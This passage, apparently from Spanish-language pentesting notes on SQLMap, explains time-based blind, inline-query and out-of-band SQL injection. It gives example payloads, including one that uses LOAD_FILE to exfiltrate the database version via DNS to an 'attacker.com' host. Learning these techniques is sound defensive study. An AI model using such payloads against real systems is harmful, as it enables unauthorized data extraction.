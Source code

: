 * La respuesta `TRUE` generalmente se caracteriza por la diferencia notable en el tiempo de respuesta en comparación con la respuesta normal del servidor.
* La respuesta `FALSE` debe resultar en un tiempo de respuesta indistinguible de los tiempos de respuesta regulares.

La Inyección SQL ciega basada en tiempo es considerablemente más lenta que la SQLi ciega basada en booleanos, ya que las consultas que resulten en TRUE retrasarían la respuesta del servidor. Este tipo de SQLi se utiliza en casos en los que la inyección SQL ciega basada en booleanos no es aplicable. Por ejemplo, en caso de que la sentencia SQL vulnerable sea una no-consulta (por ejemplo, INSERT, UPDATE o DELETE), ejecutada como parte de la funcionalidad auxiliar sin ningún efecto en el proceso de renderizado de la página, la SQLi basada en tiempo se utiliza por necesidad, ya que la Inyección SQL ciega basada en Booleanos no funcionaría realmente en este caso.



## <mark style="color:orange;">Consultas en linea</mark>

Ejemplo de `Inline Queries`:

```sql
SELECT (SELECT @@version) from
```

Este tipo de inyección incrustó una consulta dentro de la consulta original. Tal inyección de SQL es poco común, ya que necesita que la aplicación web vulnerable se escriba de cierta manera. Aún así, SQLMap también es compatible con este tipo de SQLi.



## <mark style="color:orange;">Inyección SQL fuera de banda</mark>

Ejemplo de <mark style="color:orange;">`Out-of-band SQL Injection`</mark>:

```sql
LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))
```

Este se considera uno de los tipos más avanzados de SQLi, utilizado en los casos en que todos los demás tipos no son compatibles con la aplicación web vulnerable o son demasiado lentos (por ejemplo, SQLi ciego basado en el tiempo). SQLMap admite SQLi fuera de banda a través de la "exfiltración de DNS", donde las consultas solicitadas se recuperan a través del tráfico de DNS.

Al ejecutar SQLMap en el servidor DNS para el dominio bajo control (por ejemplo, <mark style="color:orange;">`.attacker.com`</mark>), SQLMap puede realizar el ataque obligando al servidor a solicitar subdominios inexistentes (p. ej. <mark style="color:orange;">`foo.attacker.com`</mark>), dónde <mark style="color:orange;">`foo`</mark>sería la respuesta SQL que queremos recibir. SQLMap puede luego recopilar estas solicitudes de DNS erróneas y recopilar el <mark style="color:orange;">`foo`</mark>parte, para formar la respuesta SQL completa.
